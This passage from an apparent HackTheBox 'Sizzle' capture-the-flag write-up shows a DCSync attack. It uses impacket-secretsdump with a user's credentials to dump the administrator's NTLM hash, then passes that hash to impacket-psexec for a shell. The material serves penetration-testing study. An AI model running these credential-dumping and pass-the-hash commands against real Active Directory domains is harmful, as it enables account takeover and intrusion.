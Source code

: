 

We can see that our user `mrlky`, has some DCSync rights over the `htb.local` domain, if we right click on this link, and select `info`, we can see the following message:

![info-46](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Sizzle/img/info-46.png)


Which means we can try to pull of a [DCSync attack](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/dcsync). 


Ther are a few different ways to perform this attack, which will allow us to get the NTLM hash of any UPN on the domain. One way is using `mimikatz` locally on the target, and another way is to use `impacket-secretsdump` from our attack machine. I decided to go the latter option, and exploit this remotely. 


To get the NTLM hash of the administrator we can run something like this:

```bash
impacket-secretsdump -just-dc mrlky:Football#7@sizzle.htb -just-dc-user administrator
```

![hash-47](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Sizzle/img/hash-47.png)


From here we can try to crack the hash, or we can just pass it to `psexec` and get a shell:

```bash
impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:f6b7160bfc91823792e0ac3a162c9267 administrator@sizzle.htb
```
